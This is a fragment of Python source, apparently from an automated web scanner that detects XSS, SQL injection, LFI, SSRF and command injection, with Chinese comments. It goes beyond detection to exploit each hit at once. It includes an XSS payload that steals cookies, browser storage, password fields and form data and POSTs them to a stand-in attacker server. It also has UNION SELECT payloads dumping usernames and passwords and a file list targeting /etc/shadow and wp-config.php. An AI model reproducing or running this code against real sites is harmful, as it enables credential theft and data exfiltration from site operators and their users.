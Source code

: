 ```python
            if payload in response.text:
                self.found_vulns.append({
                    'param': param,
                    'payload': payload,
                    'type': self._detect_vuln_type(payload)
                })
                
                # 如果发现漏洞,立即尝试利用
                self._exploit_vuln(param, payload)
        except:
            pass
            
    def _detect_vuln_type(self, payload):
        if '<script>' in payload or 'alert' in payload:
            return 'XSS'
        elif "UNION SELECT" in payload or "WAITFOR DELAY" in payload:
            return 'SQL Injection'
        elif "../" in payload or "php://" in payload:
            return 'LFI'
        elif "localhost" in payload or "127.0.0.1" in payload:
            return 'SSRF'
        elif "|" in payload or ";" in payload:
            return 'Command Injection'
        return 'Unknown'
        
    def _exploit_vuln(self, param, payload):
        vuln_type = self._detect_vuln_type(payload)
        
        if vuln_type == 'XSS':
            # 执行数据窃取
            steal_payload = '''<script>
            var data = {
                url: location.href,
                cookies: document.cookie,
                localStorage: JSON.stringify(localStorage),
                sessionStorage: JSON.stringify(sessionStorage),
                passwords: Array.from(document.querySelectorAll('input[type=password]')).map(x => x.value),
                forms: Array.from(document.forms).map(f => Array.from(new FormData(f))),
            };
            fetch('http://攻击者服务器/collect', {
                method: 'POST',
                body: JSON.stringify(data)
            });
            </script>'''
            self._test_payload(param, steal_payload)
            
        elif vuln_type == 'SQL Injection':
            # 尝试获取数据库信息
            dump_payloads = [
                "' UNION SELECT table_name,NULL FROM information_schema.tables--",
                "' UNION SELECT column_name,NULL FROM information_schema.columns--",
                "' UNION SELECT username,password FROM users--"
            ]
            for dump_payload in dump_payloads:
                self._test_payload(param, dump_payload)
                
        elif vuln_type == 'LFI':
            # 尝试读取敏感文件
            files = [
                "/etc/passwd",
                "/etc/shadow",
                "../../wp-config.php",
```